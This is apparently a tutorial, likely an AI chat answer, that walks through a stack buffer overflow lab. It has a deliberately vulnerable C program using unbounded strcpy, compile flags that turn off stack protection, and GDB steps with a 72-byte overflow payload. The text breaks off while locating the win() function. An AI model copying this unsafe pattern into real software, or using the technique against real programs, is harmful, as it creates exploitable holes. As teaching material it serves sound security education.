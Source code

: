 CopyEdit

`// stack_smash.c #include <stdio.h> #include <string.h>  void win() {     printf("🎉 Exploit successful! Code execution achieved!\n"); }  void vulnerable_function(char *input) {     char buffer[64];     strcpy(buffer, input);  // ❗ vulnerable }  int main(int argc, char *argv[]) {     if (argc != 2) {         printf("Usage: %s <input>\n", argv[0]);         return 1;     }     vulnerable_function(argv[1]);     printf("Goodbye!\n");     return 0; }`

---

## 2️⃣ Compile Without Protections

bash

CopyEdit

`gcc -fno-stack-protector -z execstack -no-pie -g -o stack_smash stack_smash.c`

---

## 3️⃣ Run in GDB

bash

CopyEdit

`gdb ./stack_smash`

Inside `gdb`:

gdb

CopyEdit

`break vulnerable_function run $(python3 -c "print('A'*72)")`

Once it breaks:

gdb

CopyEdit

`# Show stack contents near return address x/24x $rsp`

You’ll see 64 'A's (0x41), then 8 more bytes (old base pointer), then the return address.

---

## 4️⃣ Find Address of `win()`

gdb

CopyEdit

`info address win`

You’ll see something like:

csharp
